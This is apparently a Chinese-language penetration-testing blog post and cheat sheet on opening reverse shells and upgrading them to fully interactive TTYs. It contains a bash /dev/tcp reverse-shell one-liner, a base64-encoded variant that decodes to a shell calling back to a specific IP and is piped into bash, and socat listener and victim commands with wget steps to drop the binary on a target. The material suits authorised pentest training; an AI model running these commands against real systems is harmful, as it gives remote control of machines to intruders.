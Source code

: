 +++
title = '为 Reverse Shell 添加 TTY'
date = 2024-04-21T18:11:44+08:00
draft = false
categories = ['小技巧']
tags = ['Pentest', 'TTY', 'Reverse Shell']
+++

## Reverse Shell Cheat Sheet

<https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

```bash
/bin/bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'

echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzUyLjEzOS4xNTYuMzMvNDQ0NCAwPiYxJw== | base64 -d | bash
```

## Upgrading Simple Shells to Fully Interactive TTYs

<https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>

## 交互式 shell

### 设置环境变量

```bash
export TERM=xterm-256color
```

### python pty

`dpkg -l | grep python`
`which python`
`whereis python`
查看是否有 python 环境

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

可以实现简单的 tty，但是这种方式有个问题，当我们 Ctrl+C 的时候，所有连接都会断掉，又需要重新来一遍，而且 vim 虽然可以用，也有点问题，同时没有记录，无法使用上方向键执行上条命令。

### Upgrading from netcat with magic

首先，使用Python生成一个PTY。一旦bash在PTY中运行，用 `Ctrl-Z` 将shell放到后台。

![20240405230443](https://gh.iinx.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230443.png)

当 shell 处于后台时，现在检查当前终端和 STTY 信息，以便我们可以强制连接的 shell 与其匹配

![20240405230459](https://gh.iinx.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230459.png)

所需信息是 TERM 类型（“xterm-256color”）和当前 TTY 的大小（“rows 38; columns 116”）

在仍然处于后台的情况下，现在将当前的STTY设置为原始类型，并使用以下命令告诉它回显输入字符:

```bash
stty raw -echo
```

使用原始的stty，输入/输出会看起来很奇怪，你看不到下一个命令，但当你输入时，它们会被处理。

使用 fg 将 shell 置于前台。它将重新打开反向 shell，但格式将会出错。最后，使用 reset 重新初始化终端。

![20240405230515](https://gh.iinx.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230515.png)

注意：我没有再次输入 nc 命令（因为它可能看起来像上面）。我实际输入了 fg ，但没有回显。 nc 命令是当前正在前台运行的作业。然后在netcat shell中输入了 reset 命令

在 reset 之后，shell 应该再次看起来正常。最后一步是设置 shell、终端类型和 stty 大小，以匹配我们当前的 Kali 窗口（根据上面收集的信息）。

```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

最终结果是通过netcat连接实现的具有所有我们期望的功能的完全交互式TTY（包括制表补全、历史记录、作业控制等）。

### socat (only linux)

socat 是类 Unix 系统下的一个工具，可以看作是 nc 的加强版。我们可以使用 socat 来传递完整的带有 tty 的 TCP 连接。缺点也很明显，只能在 linux 下面运行

下载地址：<https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat>

使用起来也很简单。

攻击机：

```bash
# 首先安装
sudo apt install socat
# 执行
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

目标机：

```bash
# 把 socat 上传到目标机器上或者直接下载
# 64 位
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
#32 位
wget https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx86.bin -O /tmp/socat

#从攻击机下载
攻击机指令：python3 -m http.server 8888

# 运行
chmod +x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:4444
```

这种方式基本和 ssh 类似，ctrl+C 也不会直接断开。

### 速查表

#### 使用Python进行伪终端

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### 使用 socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

#### 使用stty选项

```bash
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
echo $TERM
stty -a
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```
